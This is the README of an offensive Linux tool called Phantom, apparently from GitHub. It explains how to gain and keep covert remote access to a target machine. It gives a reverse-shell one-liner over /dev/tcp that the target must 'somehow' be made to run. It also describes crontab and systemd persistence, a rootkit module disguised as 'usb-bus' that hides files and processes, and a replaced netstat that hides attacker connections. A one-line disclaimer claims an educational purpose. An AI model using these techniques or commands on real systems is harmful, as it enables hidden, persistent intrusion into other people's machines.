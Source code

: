 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one. So, essentially
you need to specify two ports. The reason for this is that this way you have more control of what to do with the backdoor shell,
otherwise the same payload gets executed each time the target connects to your machine.

## Usage

*Syntax*:	phantom-init	ip 1st-port 2nd-port

				ip: the attacker's ip
				1st-port: the port that listens for connections to deliver the payload
				2nd-port: the port that listens for the backdoor shells after delivering
				the payload

phantom-init: Opens an ncat listening process to a predefined ip and port and redirects input to the payload file.

payload: This is the file that gets executed when the target connects to the listening ncat 1st-port. It does the following:
	a) If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
	backdoor shell to the 2nd-port.
	b) If the user connecting is root it creates a systemd service which executes a script, continuously trying to
	create a backdoor bash shell to your machine (2nd-port). It also creates a systemd service which executes a script,
	hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
	creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
	and the systemd services themselves. It is also persistent through reboots because the second systemd service
	(the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote
	connections to the specified ip and 2nd-port.

phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system.
It can also undo changes made to the nft ruleset by using the argument -r | -R .

You have to somehow make the target execute this code, so that he connects to the 1st-port:
bash -c 'bash &>/dev/tcp/ip/1st-port 0>&1 &'
ip and 1st-port are the ones specified above.

Order of execution:
a. Before delivering the payload:
	1) Execute phantom-init and wait for the target to connect to your machine.

b. After delivering the payload:
	1) Execute phantom-firewall as root, so it can modify the firewall rules.
	2) Create an ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

Order of closing:
1.	Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2. 	Close the ncat listening process so all the connections get closed with it.
3: 	Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
		This is needed if you want to open ncat again and for the target to be able to connect to you again, otherwise a nftables rule is gonna
		block him.

Check https://github.com/konsaranto/phantom for newer versions.

---Contact Information---

Konstantinos Sarantopoulos
konsaranto@gmail.com
